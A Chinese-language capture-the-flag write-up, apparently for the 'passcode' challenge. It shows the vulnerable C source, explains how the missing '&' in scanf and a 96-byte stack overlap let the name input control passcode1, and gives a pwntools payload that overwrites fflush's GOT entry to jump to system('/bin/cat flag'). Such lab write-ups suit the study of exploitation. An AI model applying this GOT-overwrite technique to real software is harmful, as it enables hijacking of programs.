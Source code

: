 ```c
        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name :");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

直接输入 passcode 的话会显示段错误，显然是因为两个 `scanf` 都没有在变量前加 `&`，直接往变量值所代表的地址上写了。

换句话说，我们可以输入适当的 `passcode` 来控制两个局部变量的地址，使得他们等于那两个数值。而存储那两个数值的地址，只能来自于我们输入的 `name`。

然而这两个数值代表的地址未必可写，`name` 和两个 `passcode` 也位于不同栈帧，无法缓冲区溢出来覆盖。到这一步似乎卡住了。但经过反汇编发现 `name` 在 `ebp-0x70`，`passcode1` 在 `ebp-0x10`，两者相差 96 字节且位于同一栈帧，换句话说 `name` 是可以覆盖 `passcode1` 的，这样看似乎又有希望。

注意到 `login` 中，`scanf` 第一次后调用了 `fflush`。因此我们可以考虑利用 `scanf` 的写特性写 GOT 表，因为 GOT 表肯定是可写的。那么我们可以先用 `fflush` 的 GOT 地址（不止 `fflush`，程序中包含的 GLIBC 函数都行）覆盖 `passcode1` 的值，然后通过 `scanf` 对 `passcode1` 的**值所代表的地址**（也就是 `fflush` 的 GOT）写入 `system("/bin/cat flag")` 的地址。这样相当于将 `fflush` 函数劫持到了 `system("/bin/cat flag")` 上。

`objdump -R passcode` 导出程序动态重定向表，拿到 `fflush` 的 GOT 地址 `0804a004`；然后 gdb 里 `disas login` 拿到 `system("/bin/cat flag")` 的地址 `080485e3`，**注意**这个地址实际上是 `call system` 的前一句：`movl $0x80487af,(%esp)`，也就是准备 `system` 函数的参数的语句。最后发 payload：

```shell
$ python
>>> from pwn import *
>>> context.log_level = 'DEBUG'
>>> p = process('./passcode')
>>> p.sendline('a'*96+p32(0x0804a004))
>>> p.sendline(str(0x080485e3))
>>> p.interactive()
```
